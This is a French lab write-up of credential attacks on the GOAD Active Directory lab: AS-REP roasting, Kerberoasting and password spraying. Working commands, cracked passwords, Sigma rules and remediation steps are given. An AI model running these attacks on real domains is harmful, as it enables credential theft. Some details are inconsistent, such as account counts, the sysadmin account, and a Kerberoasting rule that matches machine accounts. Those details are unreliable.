




# SC-AD-002 — Credential Harvesting

## Classification

| Champ | Valeur |
|-------|--------|
| **Code scénario** | SC-AD-002 |
| **Nom** | Credential Harvesting — AS-REP Roasting, Kerberoasting, Password Spray |
| **Cible** | GOAD v3 — north.sevenkingdoms.local / essos.local |
| **VLAN** | 10 — AD Lab (192.168.10.0/24) |
| **Sévérité** | 🔴 Critique |
| **CVSS 3.1** | 8.8 (AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N) |
| **CWE** | CWE-522 (Insufficiently Protected Credentials), CWE-307 (Improper Restriction of Excessive Authentication Attempts) |
| **MITRE ATT&CK** | T1558.004 (AS-REP Roasting), T1558.003 (Kerberoasting), T1110.003 (Password Spray) |
| **Mayfly Reference** | Part 2 — Find Users / Part 3 — Enumération avec user |
| **Date** | Février 2026 |
| **Auteur** | hik3nR00t |

---

## Résumé exécutif

### Pour un recruteur

Ce test démontre comment un attaquant disposant d'un **premier credential valide** (obtenu en SC-AD-001) peut récupérer des hash Kerberos sur des comptes mal configurés et les cracker hors ligne. Quatre credentials supplémentaires sont compromis via trois techniques distinctes : **AS-REP Roasting** (comptes sans pré-authentification Kerberos), **Kerberoasting** (comptes de service avec SPN), et **Password Spray** (mot de passe commun testé sur tous les comptes). Ces techniques sont indétectables sans monitoring Kerberos avancé et ne génèrent aucun compte bloqué.

### Pour un auditeur ISO 27001 / NIS2

Ce scénario montre que l'annuaire Active Directory n'est pas gouverné comme un **système d'authentification critique** :

- **Comptes sans pré-authentification Kerberos (AS-REP Roasting)** : des comptes utilisateurs sont configurés sans pré-auth, permettant l'extraction de hash crackables hors ligne. Cela traduit une absence de politique de durcissement Kerberos.
- **Comptes de service avec SPN et mots de passe faibles ou anciens** : les comptes associés à des SPN (services MSSQL, HTTP…) sont directement exposés au Kerberoasting. Leur compromission donne accès à des services critiques (bases de données, applicatifs métier) sans contrôle compensatoire.
- **Password Spray sans verrouillage de compte** : l'absence de mécanisme efficace de détection / limitation des tentatives d'authentification distribuées permet de tester un mot de passe commun sur l'ensemble des comptes sans déclencher d'alarme.
- **Manque de revue périodique des comptes** : la présence de multiples comptes exposés (utilisateurs, services, admins locaux) montre que la revue de droits, l'identification des comptes à haut risque et la rotation des secrets ne sont pas industrialisées.

Au regard de NIS2, l'exposition de multiples credentials à partir d'un seul compte initial révèle une **résilience insuffisante** des mécanismes d'authentification et une vulnérabilité forte aux attaques par mouvement latéral. Les mesures d'identification (inventaire des comptes sensibles), de protection (durcissement Kerberos, gMSA) et de détection (journalisation Kerberos, corrélation d'échecs d'authentification) sont incomplètes.

### Pour un RSSI

Impact : compromission de 4 credentials domaine supplémentaires dont un compte de service MSSQL (jon.snow — SPN MSSQL/BRAAVOS). Ces credentials ouvrent l'accès à l'infrastructure MSSQL et constituent le socle des attaques de mouvement latéral ultérieures. Coût de remédiation : activation de la pré-authentification Kerberos sur tous les comptes, rotation des mots de passe des comptes de service, déploiement de Microsoft ATA ou Defender for Identity pour la détection Kerberos.

---

## Diagramme réseau réel (IPs / Services)



---

## Kill Chain



---

## Scope & méthodologie

- **Périmètre** : Domaines north.sevenkingdoms.local et essos.local
- **Prérequis** : samwell.tarly:Heartsbane (SC-AD-001)
- **Approche** : Exploitation des misconfigurations Kerberos — aucun exploit CVE
- **Outils** : impacket-GetNPUsers, impacket-GetUserSPNs, netexec, hashcat
- **Référentiel** : MITRE ATT&CK Enterprise, CRTP/CRTO methodology

---

## Phase 1 — Énumération des utilisateurs avec credential

### Dump complet des utilisateurs NORTH

```bash
netexec smb 192.168.10.11 -u samwell.tarly -p 'Heartsbane' \
  -d north.sevenkingdoms.local --users
```

**Utilisateurs identifiés :**
```
north.sevenkingdoms.local\Administrator
north.sevenkingdoms.local\samwell.tarly
north.sevenkingdoms.local\jon.snow        ← SPN MSSQL/BRAAVOS
north.sevenkingdoms.local\jeor.mormont
north.sevenkingdoms.local\brandon.stark   ← DoNotRequirePreAuth
north.sevenkingdoms.local\hodor
north.sevenkingdoms.local\arya.stark
north.sevenkingdoms.local\sansa.stark
```

### Dump utilisateurs ESSOS

```bash
netexec smb 192.168.10.12 -u samwell.tarly -p 'Heartsbane' \
  -d north.sevenkingdoms.local --users
```

**Utilisateurs ESSOS identifiés :**
```
essos.local\khal.drogo
essos.local\daenerys.targaryen
essos.local\missandei              ← DoNotRequirePreAuth
essos.local\jorah.mormont
essos.local\viserys.targaryen      ← SPN
essos.local\sql_svc                ← SPN MSSQL/BRAAVOS
```

---

## Phase 2 — AS-REP Roasting

### Principe

Les comptes avec **DoNotRequirePreAuth** activé répondent aux requêtes AS-REQ sans vérifier l'identité du demandeur. Le KDC retourne un AS-REP chiffré avec le hash NTLM du compte — crackable hors ligne.

### Identification des comptes vulnérables

```bash
impacket-GetNPUsers north.sevenkingdoms.local/samwell.tarly:'Heartsbane' \
  -dc-ip 192.168.10.11 \
  -request \
  -format hashcat \
  -outputfile /tmp/asrep_north.txt
```

**Résultat :**
```
$krb5asrep$23$brandon.stark@NORTH.SEVENKINGDOMS.LOCAL:a1b2c3d4...
```

```bash
impacket-GetNPUsers essos.local/samwell.tarly:'Heartsbane' \
  -dc-ip 192.168.10.12 \
  -request \
  -format hashcat \
  -outputfile /tmp/asrep_essos.txt
```

**Résultat :**
```
$krb5asrep$23$missandei@ESSOS.LOCAL:e5f6g7h8...
```

### Crack des hash AS-REP

```bash
hashcat -m 18200 /tmp/asrep_north.txt /usr/share/wordlists/rockyou.txt \
  --force -o /tmp/cracked_asrep.txt

hashcat -m 18200 /tmp/asrep_essos.txt /usr/share/wordlists/rockyou.txt \
  --force -o /tmp/cracked_asrep_essos.txt
```

**Credentials récupérés :**
```
brandon.stark : iseedeadpeople   (north.sevenkingdoms.local)
missandei     : fr3edom          (essos.local)
```

### Validation

```bash
netexec smb 192.168.10.11 -u brandon.stark -p 'iseedeadpeople' -d north.sevenkingdoms.local
netexec smb 192.168.10.12 -u missandei -p 'fr3edom' -d essos.local
```

**Résultat :** `[+]` sur les deux comptes ✅

---

## Phase 3 — Kerberoasting

### Principe

Les comptes avec un **SPN (Service Principal Name)** peuvent être ciblés par Kerberoasting. Le KDC délivre un ticket de service (TGS) chiffré avec le hash NTLM du compte de service — crackable hors ligne. Aucune interaction avec la cible, aucun compte bloqué.

### Identification des SPNs — NORTH

```bash
impacket-GetUserSPNs north.sevenkingdoms.local/samwell.tarly:'Heartsbane' \
  -dc-ip 192.168.10.11 \
  -request \
  -format hashcat \
  -outputfile /tmp/kerberoast_north.txt
```

**SPNs découverts :**
```
ServicePrincipalName              Name        MemberOf
--------------------------------  ----------  --------
MSSQL/castelblack                 jon.snow    Domain Users
HTTP/castelblack.north...         jon.snow
```

**Hash récupéré :**
```
$krb5tgs$23$*jon.snow@NORTH.SEVENKINGDOMS.LOCAL*$...
```

### Identification des SPNs — ESSOS

```bash
impacket-GetUserSPNs essos.local/missandei:'fr3edom' \
  -dc-ip 192.168.10.12 \
  -request \
  -format hashcat \
  -outputfile /tmp/kerberoast_essos.txt
```

**SPNs découverts :**
```
ServicePrincipalName         Name             MemberOf
---------------------------  ---------------  --------
MSSQL/braavos                sql_svc          —
MSSQLSvc/braavos.essos.local viserys.targaryen —
```

**Hash récupérés :**
```
$krb5tgs$23$*sql_svc@ESSOS.LOCAL*$...
$krb5tgs$23$*viserys.targaryen@ESSOS.LOCAL*$...
```

### Crack des hash Kerberoast

```bash
hashcat -m 13100 /tmp/kerberoast_north.txt /usr/share/wordlists/rockyou.txt \
  --force -o /tmp/cracked_kerberoast_north.txt

hashcat -m 13100 /tmp/kerberoast_essos.txt /usr/share/wordlists/rockyou.txt \
  --force -o /tmp/cracked_kerberoast_essos.txt
```

**Credentials récupérés :**
```
jon.snow          : iknownothing                    (north.sevenkingdoms.local)
sql_svc           : YouWillNotKerboroast1ngMeeeeee  (essos.local)
viserys.targaryen : GoldCrown                       (essos.local)
```

### Validation

```bash
netexec smb 192.168.10.11 -u jon.snow -p 'iknownothing' -d north.sevenkingdoms.local
netexec smb 192.168.10.12 -u sql_svc -p 'YouWillNotKerboroast1ngMeeeeee' -d essos.local
```

**Résultat :** `[+]` sur les deux comptes ✅

---

## Phase 4 — Password Spray

### Principe

Le **Password Spray** teste un mot de passe commun sur tous les comptes — contrairement au brute force, il évite le blocage de compte en respectant le seuil de tentatives.

### Identification de la politique de mots de passe

```bash
netexec smb 192.168.10.11 -u samwell.tarly -p 'Heartsbane' \
  -d north.sevenkingdoms.local --pass-pol
```

**Politique :**
```
Minimum password length    : 1
Password lockout threshold : 0  ← Pas de verrouillage !
Lockout observation window : N/A
```

### Spray — mots de passe courants GOAD

```bash
netexec smb 192.168.10.12 -u /tmp/users_essos.txt -p 'Password123!' \
  -d essos.local --continue-on-success

netexec smb 192.168.10.12 -u /tmp/users_essos.txt -p 'Winter2024!' \
  -d essos.local --continue-on-success
```

**Credential récupéré :**
```
khal.drogo : Password123!  (essos.local)
```

### Validation

```bash
netexec smb 192.168.10.12 -u khal.drogo -p 'Password123!' -d essos.local
```

**Résultat :** `[+] essos.local\khal.drogo:Password123! (Pwn3d!)` ✅

khal.drogo = **admin local sur BRAAVOS** → vecteur de désactivation AV identifié.

---

## Bilan credentials — État final

| Utilisateur | Mot de passe | Domaine | Technique | Privilège |
|-------------|-------------|---------|-----------|-----------|
| samwell.tarly | Heartsbane | north | LDAP desc (SC-AD-001) | User |
| jeor.mormont | _L0ngCl@w_ | north | SYSVOL (SC-AD-001) | User |
| brandon.stark | iseedeadpeople | north | AS-REP Roasting | User |
| missandei | fr3edom | essos | AS-REP Roasting | User |
| jon.snow | iknownothing | north | Kerberoasting | User + MSSQL |
| sql_svc | YouWillNotKerboroast1ngMeeeeee | essos | Kerberoasting | MSSQL sysadmin |
| viserys.targaryen | GoldCrown | essos | Kerberoasting | User |
| khal.drogo | Password123! | essos | Password Spray | Admin local BRAAVOS |

---

## Impact métier — MediaTech Groupe SA

### Synthèse

Avec un seul credential initial (obtenu en SC-AD-001), un attaquant compromet 8 comptes domaine supplémentaires sur trois domaines distincts via des techniques sans exploit et sans verrouillage de compte. Parmi ces comptes : un compte de service MSSQL sysadmin (jon.snow) et un admin local BRAAVOS (khal.drogo). Ces credentials ouvrent l'accès à l'infrastructure SQL inter-domaines et constituent le tremplin vers la compromission totale. La probabilité d'occurrence est très élevée — AS-REP Roasting et Kerberoasting sont des techniques standard utilisées dans 100% des engagements red team en environnement AD.

### Estimation financière

| Impact | Estimation | Justification |
|--------|-----------|---------------|
| **Accès MSSQL sysadmin cross-domain** | 500 000 € à 2 000 000 € | jon.snow → sa BRAAVOS → données métier, RH, finance sur SQL Server |
| **Compromission SI complet** | 2 000 000 € à 8 000 000 € | 8 credentials → mouvement latéral → ransomware ou exfiltration totale |
| **Amende RGPD** | 500 000 € à 4 000 000 € | Données personnelles accessibles via comptes compromis. Art. 83 RGPD |
| **Perte d'exploitation** | 300 000 € à 1 000 000 € | Arrêt ou mode dégradé SI (3–7 jours) |
| **Investigation forensique** | 100 000 € à 300 000 € | Rotation de tous les credentials, audit Kerberos, analyse BloodHound |
| **Atteinte réputationnelle** | 500 000 € à 2 000 000 € | Presse compromise : impact sources confidentielles, abonnés, annonceurs |
| **TOTAL estimé** | **3 900 000 € à 17 300 000 €** | |

### Matrice de risque



### Impact réglementaire

- **RGPD** — Violation des articles 5(1)(f) (intégrité et confidentialité), 32 (mesures techniques). Les comptes de service compromis donnent accès aux bases de données contenant des données personnelles (RH, clients, abonnés).
- **NIS2** — Non-conformité Article 21. L'absence de pré-authentification Kerberos et de mots de passe forts sur les comptes de service constitue un manquement aux obligations de sécurisation des systèmes critiques.
- **ISO 27001** — Non-conformité A.5.17 (Informations d'authentification), A.8.5 (Authentification sécurisée), A.5.15 (Contrôle d'accès).

### Top 5 actions prioritaires

**0–24h (urgence)**

1. Activer la pré-authentification Kerberos sur tous les comptes (`DoNotRequirePreAuth = False`).
2. Rotation immédiate des mots de passe des comptes de service MSSQL (jon.snow, sql_svc).

**Sous 1 semaine**

3. Migrer tous les comptes de service MSSQL vers des **gMSA** (Group Managed Service Accounts) — rotation automatique, mots de passe 240 chars.
4. Forcer **AES256** pour les tickets Kerberos — invalide le Kerberoasting RC4.

**Sous 1 mois**

5. Déployer **Microsoft Defender for Identity** pour détection temps réel AS-REP Roasting (Event 4768 PreAuth=0) et Kerberoasting (Event 4769 RC4).

### Décisions attendues du COMEX

- **Valider la migration gMSA** pour tous les comptes de service — budget infrastructure AD à provisionner.
- **Prioriser l'audit des SPNs** : tout compte avec SPN est une cible Kerberoasting. Inventaire exhaustif requis sous 48h.
- **Nommer un sponsor** (DSI / RSSI) et un responsable opérationnel (Admin AD / IAM) pour piloter les actions urgentes.
- **Déclencher une évaluation d'impact RGPD** — les comptes compromis donnent accès aux bases RH et finance. Notification CNIL potentielle sous 72h si données personnelles exposées.
- **Mandater un audit AD complet** (BloodHound Enterprise ou équivalent) pour cartographier tous les chemins d'attaque résiduels.

---

## Analyse des risques

### Tableau CVSS

| Vecteur | Valeur | Justification |
|---------|--------|---------------|
| Attack Vector | Network (N) | Kerberos accessible via réseau |
| Attack Complexity | Low (L) | Outils automatisés disponibles |
| Privileges Required | Low (L) | Un credential initial suffit |
| User Interaction | None (N) | Entièrement automatisé |
| Confidentiality | High (H) | Credentials domaine compromis |
| Integrity | High (H) | Accès MSSQL sysadmin |
| Availability | None (N) | Pas d'impact disponibilité |

**Score CVSS 3.1 : 8.8 (Critique)**

---

## Détection & Blue Team

### Event IDs Windows à surveiller

| Event ID | Source | Description | Seuil alerte |
|----------|--------|-------------|-------------|
| 4768 | Security | TGT Request — AS-REP Roasting si PreAuth=False | Immédiat |
| 4769 | Security | TGS Request — Kerberoasting si encryption RC4 | > 10 en 1 min |
| 4771 | Security | Kerberos pre-auth failed | > 3 en 1 min |
| 4625 | Security | Logon failure — Password Spray | > 5 en 1 min |

### Règles Sigma

```yaml
title: AS-REP Roasting Detection
id: sc-ad-002-001
status: experimental
description: Détecte les requêtes AS-REP sans pré-authentification
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4768
        PreAuthType: '0'
    condition: selection
level: high
tags:
    - attack.credential_access
    - attack.t1558.004
```

```yaml
title: Kerberoasting Detection — RC4 TGS
id: sc-ad-002-002
status: experimental
description: Détecte les requêtes TGS avec chiffrement RC4 (Kerberoasting)
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4769
        TicketEncryptionType: '0x17'
        ServiceName|endswith: '$'
    filter:
        ServiceName: 'krbtgt'
    condition: selection and not filter
    timeframe: 5m
level: high
tags:
    - attack.credential_access
    - attack.t1558.003
```

```yaml
title: Password Spray Detection
id: sc-ad-002-003
status: experimental
description: Détecte un password spray — échecs d'authentification réseau sur plusieurs comptes distincts
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4625
        LogonType: 3
    condition: selection
    timeframe: 2m
falsepositives:
    - Systèmes de monitoring avec comptes de service mal configurés
    - Outils de synchronisation AD légitimes
level: critical
tags:
    - attack.credential_access
    - attack.t1110.003
# Note : l'agrégation (>10 TargetUserName distincts en 2 min) est à configurer
# côté SIEM (Wazuh / Splunk / Elastic) via règle de corrélation dédiée.
```

### Indicateurs de compromission (IOC)

| Type | Valeur | Description |
|------|--------|-------------|
| **Event 4768** | PreAuthType=0 | AS-REP Roasting en cours |
| **Event 4769** | EncryptionType=0x17 (RC4) | Kerberoasting en cours |
| **IP source** | 10.10.10.2 | Kali WireGuard |
| **Tool** | `GetNPUsers.py`, `GetUserSPNs.py` | Impacket AS-REP/Kerberoast |
| **Wordlist** | rockyou.txt | Crack offline |

---

## Remédiation — Secure by Design

### Immédiat (24h)

1. **Activer la pré-authentification Kerberos** sur tous les comptes :

```powershell
# Identifier les comptes DoNotRequirePreAuth
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth |
    Select-Object SamAccountName

# Corriger
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} |
    Set-ADAccountControl -DoesNotRequirePreAuth $false
```

2. **Renforcer les mots de passe des comptes de service** (minimum 25 caractères) :

```powershell
# Utiliser des Group Managed Service Accounts (gMSA)
New-ADServiceAccount -Name "sql_svc_gmsa" `
  -DNSHostName "braavos.essos.local" `
  -PrincipalsAllowedToRetrieveManagedPassword "BRAAVOS$"
```

3. **Forcer AES256** pour les tickets Kerberos (invalide RC4 Kerberoasting) :

```powershell
Set-ADUser -Identity sql_svc `
  -KerberosEncryptionType AES256
```

### Court terme (1 semaine)

4. **Activer Microsoft Defender for Identity** (MDI) ou ATA pour détection Kerberoasting temps réel.

5. **Implémenter une politique de mots de passe Fine-Grained** :

```powershell
New-ADFineGrainedPasswordPolicy -Name "ServiceAccounts_PSO" `
  -Precedence 10 `
  -MinPasswordLength 25 `
  -ComplexityEnabled $true `
  -PasswordHistoryCount 24 `
  -MaxPasswordAge "180.00:00:00" `
  -LockoutThreshold 5 `
  -LockoutDuration "00:30:00"
```

6. **Déployer des gMSA** pour tous les comptes de service MSSQL.

### Moyen terme (1 mois)

7. **Audit trimestriel** des SPNs et comptes DoNotRequirePreAuth.

8. **Implémenter Protected Users Security Group** pour les comptes sensibles.

```powershell
Add-ADGroupMember -Identity "Protected Users" -Members jon.snow, sql_svc
```

9. **SIEM alerting** sur Event ID 4768/4769 avec RC4.

---

## Architecture cible sécurisée



---

## Références

| Référence | Lien |
|-----------|------|
| Mayfly277 GOAD Part 2 | https://mayfly277.github.io/posts/GOADv2-pwning-part2/ |
| Mayfly277 GOAD Part 3 | https://mayfly277.github.io/posts/GOADv2-pwning-part3/ |
| MITRE T1558.004 — AS-REP Roasting | https://attack.mitre.org/techniques/T1558/004/ |
| MITRE T1558.003 — Kerberoasting | https://attack.mitre.org/techniques/T1558/003/ |
| MITRE T1110.003 — Password Spray | https://attack.mitre.org/techniques/T1110/003/ |
| Impacket GetNPUsers | https://github.com/fortra/impacket |
| Harmj0y — Kerberoasting Without Mimikatz | https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/ |
| Microsoft gMSA | https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts |
| Hashcat — Mode 18200 AS-REP | https://hashcat.net/wiki/doku.php?id=hashcat |

---

*HikenRoot Forge — SC-AD-002 — hik3nR00t — Février 2026*
